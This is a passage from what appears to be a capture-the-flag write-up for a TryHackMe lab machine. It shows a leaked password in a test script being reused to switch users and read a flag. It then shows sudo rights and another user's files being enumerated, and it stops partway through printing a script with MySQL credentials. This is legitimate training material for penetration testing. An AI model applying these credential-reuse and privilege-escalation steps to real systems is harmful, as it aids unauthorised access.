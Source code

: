   ```
          }
  
  req = requests.post(url,data=data)
  
  if "Password correct." in req.text:
      print("Everything is in proper order. Status Code: " + str(req.status_code))
  else:
      print("Something is wrong. Status Code: " + str(req.status_code))
      print("Results:\n" + req.text)
  ```
  
- In the `test.py` script, you can find Lucien's password. Switch to that user and get the first flag.

  ```
  www-data@ip-10-10-60-142:/home$ su lucien
  Password: 
  lucien@ip-10-10-60-142:/home$ whoami
  lucien
  lucien@ip-10-10-60-142:/home$ id
  uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)

  lucien@ip-10-10-60-142:~$ cat lucien_flag.txt 
  THM{TH3_L1BR4R14N}
  ```
  
- Now, login with SSH since it's more stable shell. With `lucien` when I ran `sudo -l` I found this bad boi.

  ```
  lucien@ip-10-10-60-142:/home/death$ sudo -l
  Matching Defaults entries for lucien on ip-10-10-60-142:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User lucien may run the following commands on ip-10-10-60-142:
      (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
  ```

- We don't have any permissions when it comes to files in `death` directory, so I did the same enumeration I did for `lucien`.

  ```
  lucien@ip-10-10-60-142:/home/death$ find / -user death 2>/dev/null
  /opt/getDreams.py
  /home/death
  /home/death/.local
  /home/death/.local/share
  /home/death/.local/lib
  /home/death/.local/lib/python3.8
  /home/death/.local/lib/python3.8/site-packages
  /home/death/.viminfo
  /home/death/.mysql_history
  /home/death/getDreams.py
  /home/death/.bash_history
  /home/death/.wget-hsts
  /home/death/.profile
  /home/death/.bash_logout
  /home/death/.cache
  /home/death/death_flag.txt
  /home/death/.bashrc
  
  lucien@ip-10-10-60-142:/home/death$ cat /opt/getDreams.py 
  import mysql.connector
  import subprocess
  
  # MySQL credentials
  ```